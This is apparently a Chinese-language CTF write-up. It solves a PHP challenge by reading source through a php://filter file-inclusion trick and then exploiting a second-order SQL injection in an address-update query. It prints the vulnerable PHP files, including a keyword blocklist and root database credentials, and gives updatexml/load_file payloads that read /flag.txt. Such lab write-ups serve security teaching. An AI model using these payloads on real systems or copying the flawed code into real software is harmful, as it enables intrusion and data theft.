



名字太有吸引力了。

  

<!--more-->

  
  

# ?file=?

  

网页越是花里胡哨越是去看源代码：

  



  

以及其他php文件的名字：

  



  
  

推测伪协议

  

`?file=php://filter/convert.base64-encode/resource=xxx.php`

  

所以就：

  



  

# phps

  

base64解码之后，除了HTML部分，就是一个php代码：

  

```php

//index.php

<?php

//可以访问的文件目录

ini_set('open_basedir', '/var/www/html/');

  

// $file = $_GET["file"];

$file = (isset($_GET['file']) ? $_GET['file'] : null);

if (isset($file)){

    //如果file存在则进行检查一些敏感的文件操作关键字

    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {

        echo('no way!');

        exit;

    }

    @include($file);

}

?>

```

  

<hr>

  

```php

//change.php

<?php

  

require_once "config.php";

  

//检查post来的数据中，user_name、 address、 phone不为空

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))

{

    $msg = '';

    //把基本的SQL注入关键字都列入黑名单了

    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';

    $user_name = $_POST["user_name"];

    //对address进行addslashes过滤

    $address = addslashes($_POST["address"]);

    $phone = $_POST["phone"];

    //对user_name 和 phone把基本的SQL注入关键字都给过滤了。

    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){

        $msg = 'no sql inject!';

    }else{

        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";

        $fetch = $db->query($sql);

    }

  

    //如果查询结果中存在匹配的用户数据

    if (isset($fetch) && $fetch->num_rows>0){

        $row = $fetch->fetch_assoc();

        //更新地址，并保存旧地址

        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

        $result = $db->query($sql);

        //检查更新是否成功

        if(!$result) {

            echo 'error';

            print_r($db->error);

            exit;

        }

        $msg = "订单修改成功";

    } else {

        $msg = "未找到订单!";

    }

}else {

    $msg = "信息不全";

}

?>

```

  

在这里的开头可以看见还有一个`config.php`，so：

  

<hr>

  

```php

//config.php

<?php

  

ini_set("open_basedir", getcwd() . ":/etc:/tmp");

  

$DATABASE = array(

  

    "host" => "127.0.0.1",

    "username" => "root",

    "password" => "root",

    "dbname" =>"ctfusers"

);

  

$db = new mysqli($DATABASE['host'],$DATABASE['username'],$DATABASE['password'],$DATABASE['dbname']);

  

```

  

- `ini_set("open_basedir", getcwd() . ":/etc:/tmp");`: 设置 open_basedir 配置选项，用于限制 PHP 脚本能够访问的文件路径范围。在这里，它被设置为当前工作目录 `(getcwd())`、`/etc` 目录和 `/tmp`目录。这样，PHP 脚本只能访问这些指定的路径，超出这些路径的访问将被限制。

  

- 数据库连接: 通过使用提供的数据库连接参数（主机、用户名、密码、数据库名），创建了一个 MySQLi 对象 `$db`，用于与 名为**ctfusers**`MySQL` 数据库建立连接。

  
  

# attack?

  

注意一下存在的sql语句，

  

```php

//...

$sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";

$fetch = $db->query($sql);

  

//...

  

$sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];

$result = $db->query($sql);

```

  

上面一个没有上面可利用的，基本写死了，so，下面这一个。

  

- update地址，对update的内容进行addslashes检查——address会被转义，然后进行更新，也就是说单引号之类的无效了

- 旧地址`$row['address']`存入`old_address`，没有任何检查处理拼接到`$sql`中。

  

如果第一次修改地址的时候，构造一个含SQL语句特殊的payload，然后在第二次修改的时候随便更新一个正常的地址，那个之前没有触发SQL注入的payload就会被触发。

  

所以进行二次注入攻击。

  
  

[LOAD_FILE(filename](https://www.yiibai.com/mysql/mysql_function_load_file.html)

  

[updatexml](https://www.cnblogs.com/c1047509362/p/12806297.html)

  

<hr>

  

构造payload：

  

```sql

1' or updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,30))),1)#

1' or updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),30,60))),1)#

```

  

[具体操作参考这个](https://blog.csdn.net/nigo134/article/details/119487058?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-119487058-blog-119929199.235%5Ev40%5Epc_relevant_3m_sort_dl_base4&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ERate-1-119487058-blog-119929199.235%5Ev40%5Epc_relevant_3m_sort_dl_base4&utm_relevant_index=2)
